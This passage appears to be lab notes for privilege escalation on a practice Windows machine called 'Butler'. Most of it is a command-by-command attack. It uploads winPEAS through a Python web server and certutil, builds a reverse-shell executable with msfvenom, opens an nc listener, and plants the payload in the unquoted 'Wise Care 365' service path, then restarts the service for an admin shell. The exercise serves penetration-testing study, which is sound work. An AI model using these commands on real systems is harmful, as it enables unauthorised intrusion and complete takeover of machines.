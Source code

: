   * Similar to linPEAS for Linux Privilege Escalation, we have winPEAS for Windows Privilege Escalation, so we can attempt that. So, download winPEASx64.exe and open terminal in new tab:

    ```shell
    cd transfers/ #the folder from where we will be transferring folders to Butler

    mv /root/Downloads/winPEASx64.exe /root/transfers/winpeas.exe

    ls #we have winpeas.exe in this folder now

    python3 -m http.server 80 #starting web server on port 80

    #in Windows machine, that is, the terminal where we can access Butler
    cd C:\Users

    dir

    cd butler #this folder will mostly have read/write access

    certutil.exe -urlcache -f http://10.0.2.7/winpeas.exe winpeas.exe #using a service to transfer file from Kali Linux to Butler

    dir #we have winpeas.exe now

    winpeas.exe #executes and gives us a huge list of vulnerabilities
    #we decide to choose the vulnerabilities which have detected 'No quotes and spaces' (in files such as 'Wise Care'), as those allow us to execute .exe files

    #in the Kali machine, pause the webserver and insert malware to be transferred
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.7 LPORT=7777 -f exe > Wise.exe
    #this generates a shell named Wise.exe

    python3 -m http.server 80 #restart web server

    #in a new tab, start listening on port 7777
    nc -nvlp 7777
    ```

    ```shell
    #in Butler
    cd C:\

    cd "Program Files (x86)"

    dir

    cd Wise #required directory

    dir #includes 'Wise Care 365'

    certutil.exe -urlcache -f http://10.0.2.7/Wise.exe Wise.exe
    #as the 'Wise Care 365' service is started by admin, we have to first stop it and then run Wise.exe

    sc stop WiseBootAssistant

    sc query WiseBootAssistant #stops the service

    sc start WiseBootAssistant #this gives us shell access

    whoami #we have root access
    ```

---
